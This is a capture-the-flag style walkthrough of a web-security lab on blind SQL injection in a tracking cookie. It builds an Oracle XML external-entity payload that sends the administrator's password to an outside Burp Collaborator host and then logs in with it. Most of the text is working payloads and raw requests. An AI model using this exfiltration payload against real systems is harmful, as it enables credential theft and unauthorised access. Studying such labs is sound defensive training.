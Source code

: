 # Blind SQL injection with out-of-band data exfiltration - The easy solution

send request for the home page to repeater
the injectable location is between the end of the tracking cookie and the semi colin
```
Cookie: TrackingId=yo3lljVcGknlZs43 (here) ;
```
Send to intruder and select/highlight that spot
```
Cookie: TrackingId=yo3lljVcGknlZs43§ §; session=b5JQ5IUnadQ77eMtVMlUICyB1apxT8Vu
```
Then right click, scan defined insertion point, and it will discover OOB interaction
Here is the alert:
SQL Injection
```
Issue detail
The manual insertion point 1 appears to be vulnerable to SQL injection attacks.
The payload '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % absfl SYSTEM "http://udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'||'fy.com/">%absfl;]>'),'/l') from dual)||'
was submitted in the manual insertion point 1.
This payload injects a SQL sub-query that calls Oracle's xmltype function to evaluate some data as XML.
The supplied XML defines an external entity that references a URL on an external domain.
The application interacted with that domain, indicating that the injected SQL query was executed.
The database appears to be Oracle. 
```
**Request**
```
GET / HTTP/2
Host: 0ae7000603e8320a82d33450009f004a.web-security-academy.net
Cookie: TrackingId=yo3lljVcGknlZs43'%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20absfl%20SYSTEM%20%22http%3a%2f%2fudbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'%7c%7c'fy.com%2f%22%3e%25absfl%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c'; session=b5JQ5IUnadQ77eMtVMlUICyB1apxT8Vu
```
* Decoded the scanner payload is
* `yo3lljVcGknlZs43'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % absfl SYSTEM "http://udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'||'fy.com/">«sfl;]>'),'/l`

**Collaborator HTTP interaction**
```
GET / HTTP/1.0
Host: udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oastify.com
Content-Type: text/plain; charset=utf-8
```
_the Host is the signifigant part_

* At this point all ya gotta do is modify the scanner payload to your specs:
**Copy the scanner payload from the inspector editor, and edit it in a text document, or in the editor**
1. You need the administrator's password, Use Oracle's SQL query to get it
  `(SELECT password from users where username='administrator')`
2. Cause the app to connect to your burp collaborator server, so include that URL in the query
3. Change the **ENTITY** value from the scanner's `% absfl` to `% remote`
4. The **SYSTEM** must call from the command in step 1, and include the `||` 
   ```
   SYSTEM "http://'||(SELECT password from users where username='administrator')
   ```
6. Followed by `||'.yourburpcollaboratordomain.oastify.com/"
7. Reference the **ENTITY** `remote`
  And here it is complete SQL Injection to get the admin's password:
```
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.burpcollab.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
replace burpcollab in the example above with yours

**Now put it in the Inspector editor and save changes and send the request**
Check your collab server and you will see in an HTTP request to it:
```
GET / HTTP/1.0
Host: 3pdm0kmm3be2otrzu11u.4v0eryjx53xeu6ybit3shuudw42vqoed.oastify.com
Content-Type: text/plain; charset=utf-8
```
**the Host sub domain is the admin's password.**
In this example it's **3pdm0kmm3be2otrzu11u**

Now go to the login page and login with the credentials

username
`administrator`

password
`3pdm0kmm3be2otrzu11u`

